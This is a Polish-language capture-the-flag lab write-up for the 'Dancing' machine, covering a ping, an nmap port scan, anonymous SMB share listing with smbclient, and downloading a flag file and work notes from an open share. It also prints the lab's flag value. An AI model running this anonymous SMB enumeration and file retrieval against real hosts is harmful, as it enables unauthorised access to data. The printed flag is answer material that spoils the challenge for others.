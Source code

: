 # 🧪 THM – Lab SMB (Dancing)

## 📡 Ping do hosta

```bash
ping 10.129.174.30
```

Wynik:

```
64 bytes from 10.129.174.30: icmp_seq=1 ttl=127 time=28.8 ms
64 bytes from 10.129.174.30: icmp_seq=2 ttl=127 time=149 ms
64 bytes from 10.129.174.30: icmp_seq=3 ttl=127 time=28.9 ms
```

## 🔍 Skanowanie portów nmap

```
nmap 10.129.174.30
```

Otwarty porty:

    135/tcp → msrpc

    139/tcp → netbios-ssn

    445/tcp → microsoft-ds

## 📂 Sprawdzanie udziałów SMB

```
smbclient -N -L \\10.129.174.30
```

Dostępne udziały:

    ADMIN$

    C$

    IPC$

    WorkShares ✅

## 🔐 Próba połączenia z udziałami
### ❌ Próby nieudane:

```
smbclient \\\\10.129.174.30\\ADMIN$
smbclient \\\\10.129.174.30\\C$
```

Wynik:

```
tree connect failed: NT_STATUS_ACCESS_DENIED
```

## ✅ Połączenie do WorkShares

```
smbclient \\\\10.129.174.30\\WorkShares
```

📁 Struktura katalogów:

    Amy.J

    James.P

## 📥 Pobranie pliku flag.txt z James.P

```
cd James.P\
ls
get flag.txt
```

Zawartość:

```
5f61c10dffbc77a704d76016a22f1664
```

## 📥 Pobranie pliku worknotes.txt z Amy.J

```
cd Amy.J\
ls
get worknotes.txt
```

Zawartość:

- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing

## 📝 Zapis całej sesji tmux do pliku:

```
tmux capture-pane -pS -1000 > zapis.txt
```